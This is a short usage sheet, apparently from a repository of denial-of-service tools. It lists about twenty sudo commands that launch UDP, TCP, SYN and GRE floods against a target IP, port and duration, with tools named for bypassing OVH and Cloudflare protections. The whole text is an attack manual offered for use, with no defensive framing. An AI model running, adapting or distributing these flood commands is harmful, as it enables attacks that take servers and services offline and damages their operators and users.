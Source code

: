 How to use :

SSA : sudo ./ssa (ip)

ETC : sudo ./etc (ip) (port)

OVH : sudo ./ovh %ip% %port% 9999 0 %time

OVH-V2 : sudo ./ovhbypass2 %ip% %port% %time udp

STD : sudo ./STD-NOSPOOF %ip% %port%

STCP : sudo ./STCP %ip% %port% 10 -1 %time ack

HEX : sudo ./HEX OVH %ip% %port% 300

NUKE-BYPASS : sudo ./HiperOVH %ip% %port

CLOUDFLARE : sudo ./cloudflare %ip% 10 -1 300

ETHERA : sudo ./ETHERA %ip% %port

CPU-SURGE : sudo ./CPU-SURGE TCP %ip% %port% 300

VALID-SYN : sudo ./WRA %ip% %port% 10 -1 300

R4P3 : sudo ./gre %ip% 10 -1 300

NFO : sudo ./NFO %ip% %port% 10 -1 300

UDP-BYPASSV2 : sudo perl UDP-BYPASS-V2.pl %ip% %port% 5500 300

UDP-BYPASS : sudo perl UDP-BYPASS.pl %ip% 300

NULL : sudo perl UDP_NULL.pl %ip% 300

PATH : sudo perl UDP_BPSS.pl %ip% %port% 5500 300

UDP-MIX : sudo perl UDP_MIX.pl %ip% 300

TCP_NUKE : sudo perl TCP_VOX.pl %ip% 300
